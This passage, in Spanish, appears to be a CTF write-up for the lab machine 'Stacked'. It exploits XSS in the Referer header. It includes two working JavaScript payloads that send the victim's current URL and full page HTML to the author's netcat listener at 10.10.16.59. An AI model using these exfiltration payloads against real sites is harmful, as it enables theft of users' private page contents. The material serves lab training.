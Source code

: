 ![0](https://user-images.githubusercontent.com/69093629/162544074-7662d07d-a39b-4eb3-92d7-27fc34889e63.png)

Y tras un pequeño intervalo de tiempo recibí una petición GET a mi servidor desde la máquina víctima.

![0](https://user-images.githubusercontent.com/69093629/162544209-25b5969e-960e-47f5-8099-b79d0452d602.png)

La cabecera *Referer* era vulnerable a XSS.

### Estrategia

Mi idea era identificar si el servidor tenía interacción con algún usuario, por lo que me cree un pequeño script en JS con el siguiente contenido:

```js
var oReq = new XMLHttpRequest();
oReq.open("GET", "http://10.10.16.59:9999/" + document.location, false);
oReq.send();
```

Este lo que iba a hacer es enviar una petición GET a mi sesión de `nc` por el puerto 9999 con la ruta en la que se encontraba el usuario en ese momento.

Abrí un servidor de Python por el puerto 8000 alojando `request-3.js` y apunte a mi archivo JS desde el XSS.

![0](https://user-images.githubusercontent.com/69093629/162544871-e17b5ff2-1cb8-45cc-9a31-b43604991314.png)

Espere un tiempo y recibí una conexión a mi sesión de `nc` en la que contenía una ruta.

![0](https://user-images.githubusercontent.com/69093629/162544592-0e724ada-b7ed-499c-a487-1fbe20a7f167.png)

Al parecer el usuario estaba en `mail.stacked.htb`. Este subdominio no lo encontró `wfuzz` porque operaba localmente en la máquina y no tenía acceso a el de manera externa.

El siguiente paso fue descargar el HTML de `http://mail.stacked.htb/read-mail.php?id=7` y almacenarlo en `index.html`.

Lo que hice fue crear otro script en JS con el siguiente código:

```js
var oReq = new XMLHttpRequest();
oReq.open("POST", "http://10.10.16.59:5555/", false);
oReq.send(document.documentElement.outerHTML);
```

Este lo que iba a hacer fue enviar una petición POST a mi sesión de netcat con el código HTML de la página en la que se encontraba el usuario por el puerto `5555` y almacenar este en un archivo llamado `index.html`.

Apunte a mi archivo JS llamado `request.js` desde el XSS y recibí una conexión a mi sesión de `nc`.

![0](https://user-images.githubusercontent.com/69093629/162545501-0ace3a79-4a76-4a62-b705-029fcaffb8fd.png)

### Esquema de ataque:
